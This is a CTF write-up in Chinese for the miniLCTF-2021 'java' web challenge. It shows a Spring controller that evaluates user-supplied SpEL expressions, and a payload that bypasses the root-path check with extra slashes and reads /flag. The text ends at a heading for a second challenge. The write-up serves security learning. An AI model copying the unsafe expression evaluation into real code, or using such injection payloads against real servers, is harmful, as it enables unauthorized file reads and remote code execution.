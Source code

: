# Web

## 1. [miniLCTF-2021] java

源代码：

```java
package com.controller;

import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

import javax.servlet.http.HttpServletRequest;
import java.net.MalformedURLException;

@RestController
public class MainController {
    ExpressionParser parser = new SpelExpressionParser();


    @RequestMapping("/")
    public String main(HttpServletRequest request,@RequestParam(required = false) String code,@RequestParam(required = false) String url) throws MalformedURLException {
        String requestURI = request.getRequestURI();
        if(requestURI.equals("/")){
            return "nonono";
        }
        else{
            if (code!=null) {
                String s = parser.parseExpression(code).getValue().toString();
                return s;
            } else {
                return "so?";
            }
        }
    }
}
```

需要绕过第一个if判断，进入到else里面通过`parser.parseExpression(code).getValue().toString();`来执行命令来获取flag，构造payload：

```
/////?code=(new java.io.BufferedReader(new java.io.FileReader("/flag"))).readLine()
```

即可获得flag

## 2. [miniLCTF-2023] mini_java

